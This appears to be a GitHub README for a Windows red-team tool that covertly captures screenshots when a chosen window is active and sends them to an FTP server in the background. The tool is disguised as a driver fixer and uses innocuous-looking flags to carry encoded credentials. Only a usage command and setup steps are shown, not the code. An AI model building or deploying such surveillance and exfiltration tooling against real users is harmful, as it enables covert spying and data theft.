 

### GuardPixelOps 🖥️🛡️

## Overview
GuardPixelOps is a powerful tool designed for Red Team operations and adversary simulations. This Python script focuses on Windows environments, specifically addressing issues sending screenshots. The tool offers functionalities for capturing screenshots and insecurely sending logs to a designated FTP server.

## Features
- **Automated Driver Fixes:** GuardPixelOps identifies and fixes broken drivers in the Windows environment. OF COURSE NOT! This is a joke!
- **Screenshot Capture:** The tool captures screenshots of the active window when a broken driver is detected, providing visual context for analysis. (You kidding me?! It takes screenshots based on the active Window!)
- **Secure Log Transmission:** Logs containing information are insecurely compressed and sent to a specified FTP server for analysis.
- **Background Operation:** GuardPixelOps operates silently in the background, periodically sending logs at regular intervals.

## How It Works
1. **Screenshot Grabbing:** Monitors the active window and captures screenshots when a specified window title is detected. The tool then saves the screenshots and logs the fixed driver information.
2. **Log Transmission:** Compresses the fixed driver logs into a zip file and securely transmits them to a designated FTP server for further analysis.
3. **Background Operation:** Runs as a background process, automatically sending logs at regular intervals.

## Usage
To use GuardPixelOps, provide the following command-line arguments:
- `--winupdate`: FTP Relay information. BASE64 Encoded! 🖥️
- `--wintoken`: Authentication User. BASE64 Encoded! 🖥️
- `--winversion`: Credentials. BASE64 Encoded! 🖥️
- `--regger`: Desired Window name. Plain Text

### Example Command:
```bash
python guardpixelops.py --winupdate <FTP_Relay_information> --wintoken <Authentication_User> --winversion <Credentials> --regger <Desired_Window_name>
```

## Setup
1. Clone the repository: `git clone https://github.com/your-username/guardpixelops.git`
2. Install dependencies: `pip install -r requirements.txt`
3. Run the script: `python guardpixelops.py`

## Disclaimer
GuardPixelOps is intended for educational and research purposes only. Users are responsible for complying with applicable laws and regulations.


Feel free to contribute to the project by opening issues or submitting pull requests!

👾 Happy Red Teaming with GuardPixelOps! 👾

